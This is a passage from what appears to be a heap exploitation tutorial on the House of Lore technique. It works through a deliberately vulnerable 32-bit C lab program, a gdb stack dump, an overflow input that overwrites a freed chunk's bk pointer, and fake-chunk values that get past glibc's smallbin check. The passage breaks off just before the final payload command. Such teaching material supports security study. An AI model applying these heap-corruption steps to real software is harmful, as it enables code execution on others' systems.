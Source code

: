 ``` c
  lb2 = (char *) malloc(128);
  printf("\nLB2 -> [ %p ]", lb2);

  strcpy(lb1, "Which is your favourite hobby? ");
  printf("\n%s", lb1);
  fgets(lb2, 128, stdin);
}
```
Yes, I know that manually setting the values inside the code itself is not a clean way of doing things, but I didn’t want to waste too much time by writing fgets and conversions from ASCII to integers. The concept still stays.  
The first thing to do is to overwrite victim‘s bk pointer in such a way that bck‘s fd value is located where a is. In order to do this, we need a layout of func1‘s stack.  
``` 
 (gdb) x/20x 0xffffcf30
0xffffcf30:	0xf7e5d000	0x00000000	0x0804860c	0x00000080
0xffffcf40:	0xaaaaaaaa	0xbbbbbbbb	0xcccccccc	0x00000000
0xffffcf50:	0x0804874b	0xffffcf68	0x08048753	0x0804bfe8
0xffffcf60:	0x0804c000	0x0804c088	0x00000000	0xf7cdd943
0xffffcf70:	0x00000002	0xffffd004	0xffffd010	0xf7feb05e

RET -> 0xFFFFCF58
```
In order to have bck‘s fd field located at 0xFFFFCF40 we need to overwrite victim‘s bk with 0xFFFFCF38.  
```
 $ ./hol `python -c 'import sys; sys.stdout.write("AAAAAAAAAAAAAAAAAAAAAAAAAAAA\x38\xCF\xFF\xFF

Buff1 -> [ 0x804bfe8 ]
Buff2 -> [ 0x804c000 ]
Buff3 -> [ 0x804c088 ]

Buff4 -> [ 0x804c190 ]
*** Error in `./hol': malloc(): smallbin double linked list corrupted: 0x0804c000 ***
```
In order to pass the check, the a variable must be set to 0x0804C000’s chunk: 0x0804BFF8. This will make the first malloc() call to correctly return the old buff2‘s address. When the malloc() is called again, this check will be performed again and we need to handle this situation. In this new scenario, victim will be set at 0xFFFFCF38 and its bk will be, of course, located where b is stored. This variable must store the address of a fake chunk in such a way that its fd field lies on c: 0xFFFFCF40. Of course, c must be set as well to the same value of the victim: 0xFFFFCF38.  
The updated code will look like:  
``` c
 void func1()
{
  char *lb1, *lb2;

  unsigned int a = 0x0804BFF8;
  unsigned int b = 0xFFFFCF40;
  unsigned int c = 0xFFFFCF38;

  [...]
```
Trying to run this one, will result into a correct allocation of both lb1 and lb2: the latter points, on my machine, at 0xFFFFCF40. As the address of evil_func is 0x080485D5, the payload can be generated with the following command:  
